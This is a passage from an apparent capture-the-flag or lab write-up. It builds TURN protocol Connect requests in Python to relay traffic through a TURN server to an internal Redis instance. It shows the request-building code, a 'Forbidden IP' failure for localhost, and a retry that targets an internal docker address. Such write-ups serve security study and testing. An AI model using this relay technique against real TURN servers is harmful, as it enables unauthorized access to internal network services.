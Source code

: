 We then need to send the request and process the response:

```python
# Connect Request
cs.sendall(build_connect_request())
data = cs.recv(1024)

print('Raw Connect Request Response', data)
connection_id = parse_response(data)
print('\n\n')
```

If done properly, we should get a success response with a connection id that we need for the following request.  Lets see what happens.

```python
generated txn id b'27706f2772e2fc069fb41a04'
Raw Connect Request Response b'\x01\x1a\x00\x1c!\x12\xa4B\'po\'r\xe2\xfc\x06\x9f\xb4\x1a\x04\x00\t\x00\x10\x00\x00\x04\x03Forbidden IP\x80"\x00\x04None'
Message Type b'\x01\x1a'
Length 28
Cookie b'2112a442'
txn ID b'27706f2772e2fc069fb41a04'
attribute type b'0009'
length 16
value b'00000403466f7262696464656e204950'
attribute type SOFTWARE
value None

Traceback (most recent call last):
  File "./redis-proxy.py", line 229, in <module>
    ds.sendall(build_connectbind_request(connection_id))
  File "./redis-proxy.py", line 134, in build_connectbind_request
    attributes += connection_id
TypeError: can't concat NoneType to bytes
```

Uh-oh, looking at the raw request output, and checking the packet in wireshark, we see that `127.0.0.1` is forbidden, and we didn't get our
connection id that we needed.  Looks like we'll need to try something else.

#### Connect Request (Second Attempt)

So we know the docker subnet from the relay address in the allocation request.  Perhaps we can use that ip instead in order to access the
redis server.  Lets modify our build function and give it a go

```python
def build_connect_request():

  attributes = XOR_PEER_ADDRESS
  attributes += b'\x00\x08' #length
  attributes += b'\x00\x01' #ipv4 = 0x01
  attributes += b'\x39\xf9' # 6379 -> 0x18eb ^ 0x2112 -> 0x39f9
  attributes += b'\x8d\x03\xa4\x41' # 172.17.0.3 -> 0xAC110003 ^ 0x2112A442 -> 0x8d03a441
  attr_len = len(attributes)
  attr_len = attr_len.to_bytes(2, 'big')

  header = CONNECT_REQUEST
  header += attr_len
  header += COOKIE
  txnId = gen_tran_id()
  header += txnId
  print('generated txn id', binascii.hexlify(txnId))

  return header + attributes
```
